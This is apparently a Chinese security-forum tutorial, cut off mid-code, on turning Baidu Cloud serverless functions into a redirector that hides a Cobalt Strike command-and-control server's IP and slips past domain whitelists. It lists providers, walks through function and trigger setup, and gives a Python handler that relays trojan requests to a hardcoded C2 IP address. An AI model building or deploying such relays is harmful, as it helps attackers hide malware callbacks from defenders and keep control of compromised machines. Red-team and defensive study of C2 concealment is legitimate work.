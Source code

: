 云函数
===

云函数（Serverless Cloud Function，SCF）是云服务商为企业和开发者们提供的无服务器执行环境，帮助您在无需购买和管理服务器的情况下运行代码。

提供云函数服务商
--------

阿里云：<https://www.aliyun.com/product/fc>  
腾讯云：<https://console.cloud.tencent.com/scf/>  
华为云：<https://developer.huawei.com/consumer/cn/agconnect/cloud-function/>  
百度云：<https://cloud.baidu.com/product/cfc.html>  
移动云：<https://ecloud.10086.cn/home/product-introduction/sfc>  
天翼云：<https://www.ctyun.cn/products/hsjs>  
字节跳动轻服务：<https://qingfuwu.cn/>  
AWS Lambda：<https://aws.amazon.com/lambda/>  
Google Firebase：<https://firebase.google.com/>  
Azure Function：<https://azure.microsoft.com/en-us/services/functions/>

利用场景
----

1、用于隐藏上线的服务器IP  
2、域名白名单出网上线

本篇要接触学习的是百度智能云，案例及教程网上**独一无二：)**

### 第一步

注册账号、实名认证，创建函数，选择空白函数

![Untitled.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-fb1c01848355356a7f7e77da4651f5f7b931d0cd.png)

根据网上适用于腾讯云、阿里云的代理脚本，执行函数环境应当选择python3

![Untitled1.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-3dab39bea152e70ffbab7007291ab19b42d217cd.png)

选择http触发器，配置好url路径和http方法提交即可，因为跟腾讯云函数配置不相同，**这里的url路径是个坑点！因为CS每次请求的url路径都是随机的！并且需要对设置url路径做好正则匹配！不然请求云函数链接就是404！这样就没办法执行到函数代码部分！！**

![Untitled2.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-c2dfa072479a9339a056b4bb3ce355498b6df82a.png)

![Untitled3.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-4e4841dc9a17d40dd058d2dcfb9585cdd9a35c8b.png)

### 第二步

配置函数代码，这段代码可以理解为将服务商云函数作为代理，木马通过http/https连接云函数，借助云函数将访问路径和请求内容转发给我们的C2服务器，随后C2应答请求的返回包传回至云函数，云函数再转发回木马接收处理

```python
# -*- coding: utf-8 -*-

# def handler(event, context): 
#     return "Hello World"
import json,requests,base64
def handler(event, context):
    C2='<https://110.40.213.80:443>' # 这里可以使用 HTTP、HTTPS~下角标~
    path=event['path']
    headers=event['headers']
    print(event)
    if event['httpMethod'] == 'GET' :
        resp=requests.get(C2+path,headers=headers,verify=False)
    else:
        resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
        print(resp.headers)
        print(resp.content)
    response={
```